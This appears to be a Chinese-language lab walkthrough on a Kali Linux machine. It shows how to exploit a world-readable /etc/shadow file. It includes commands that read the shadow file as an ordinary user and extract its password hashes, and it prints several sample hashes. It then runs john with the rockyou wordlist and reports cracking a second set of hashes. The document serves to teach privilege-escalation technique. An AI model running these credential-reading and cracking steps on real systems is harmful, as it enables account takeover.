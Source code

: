 ## 可读shadow文件利用

1、root用户赋予可读权限

```bash
┌──(root💀kali)-[~]
└─# chmod +u /etc/shadow
```

2、kali用户查看shadow权限

```bash
┌──(kali㉿kali)-[~]
└─$ ls -liah /etc/shadow
3413576 -rw-r--r-- 1 root shadow 1.8K May 20 01:35 /etc/shadow
```

3、kali用户提取hash

```bash
┌──(kali㉿kali)-[~]
└─$ cat /etc/shadow | grep ':\$'
root:$y$j9T$FhuDojGu2WxsFJMNVNfR10$8JXAjJHPzbmGS8tGFYwHVEecQMz.4sEBOZKyXTn5PG9:18903:0:99999:7:::
kali:$y$j9T$B4i9oW2LaERt/J5/X8bbN/$zzGfRqAZim/VofZcas3MhnfSdYddB5.zRulk087PN2A:18878:0:99999:7:::
```

解压字典：

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

4、john 爆破，hash 为 之前kali用户vim提取存入的 hash

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

这里破解不出来，yescrypt 好像不能破解

[/etc/shadow可以破解吗 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/502767105)

[Understanding /etc/shadow file format on Linux - nixCraft (cyberciti.biz)](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)

5、换了一套环境的hash，破解成功

```
root:$6$B2UOTJuK$FhrDXT5b2VnwSOlGJnnrcZz3Yp57Xxj3xffkTwCmIepvnV1TvOdCw8msrCUrpplnaqEOV7PHBJVWBGzOFIKby.:18016:0:99999:7:::
moonteam:$6$JmlEMUxK$1z4jAyPW9M10W4c6T79ly1yO38S9dXWLdj.gflDVsqj4DkhBTMBjLd8u7q5GD4B.SXa4smGrsXZxwJtPNHfRe0:18016:0:99999:7:::
```

<img src=".\图片\Snipaste_2023-05-30_16-39-23.png" alt="Snipaste_2023-05-30_16-39-23" style="zoom: 80%;" />
